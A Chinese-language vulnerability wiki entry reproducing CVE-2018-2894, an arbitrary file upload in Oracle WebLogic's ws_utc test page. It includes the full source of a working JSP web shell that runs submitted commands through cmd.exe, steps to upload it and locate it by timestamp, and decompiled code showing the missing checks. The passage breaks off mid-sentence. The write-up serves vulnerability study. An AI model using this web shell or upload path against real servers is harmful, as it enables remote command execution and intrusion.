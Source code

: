 （CVE-2018-2894）WebLogic任意文件上传
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

三、复现过程
------------

下载地址：<http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip>

漏洞复现

服务启动后，访问 <http://localhost:7001/ws_utc/config.do>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId26.png)

可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

    C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

    <%@ page import="java.util.*,java.io.*,java.net.*"%>
    <HTML><BODY>
    <FORM METHOD="POST" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
            Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                    out.println(disr); disr = dis.readLine(); }
            }
    %>
    </pre>
    </BODY></HTML>

抓包获取到时间戳为1531987145013，则上传到的位置即config\\keystore\\1531987145013\_chybeta.jsp

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId27.png)

访问<http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId29.png)

简要漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

    public void changeWorkDir(String path) {
        String[] oldPaths = this.getRelatedPaths();
        if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
            this.isWorkDirChangeable = false;
            this.isWorkDirWritable = isDirWritable(path);
            this.isWorkDirChangeable = true;
            this.setTestClientWorkDir(path);
        } else {
            this.persistWorkDir(path);
            this.init();
        }
        if (this.isWorkDirWritable) {
            String[] newPaths = this.getRelatedPaths();
            moveDirs(oldPaths, newPaths);
        } else {
            Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
        }
    }

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：

    @Path("/keystore")
    @POST
    @Produces({"application/xml", "application/json"})
    @Consumes({"multipart/form-data"})
    public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
        if (!RequestUtil.isRequstedByAdmin(this.request)) {
            return Response.status(Status.FORBIDDEN).build();
        } else {
            if (TestClientRT.isVerbose()) {
                Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
            }
            String currentTimeValue = "" + (new Date()).getTime();
            KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
            ....
        }
    }

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

    public static String getKeyStorePath() {
        return getConfigDir() + File.separator + "keystore";
    }

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

    public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
        ...
        if (attachName != null && attachName.trim().length() > 0) {
            if (attachName != null && attachName.trim().length() != 0) {
                attachName = this.refactorAttachName(attachName);
                if (fileNamePrefix == null) {
                    fileNamePrefix = key;
                }
                String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
                kvMap.addValue(key, filename);
                if (isExtactAttachment) {
                    this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
                }
            }
        } 
        ...
    }

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + \"\_\"
+ attachName。这过程没有任何过滤和检查：）...

利用条件：

需要知道部署应用的web目录

ws\_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle®
Fusion Middleware Administering We
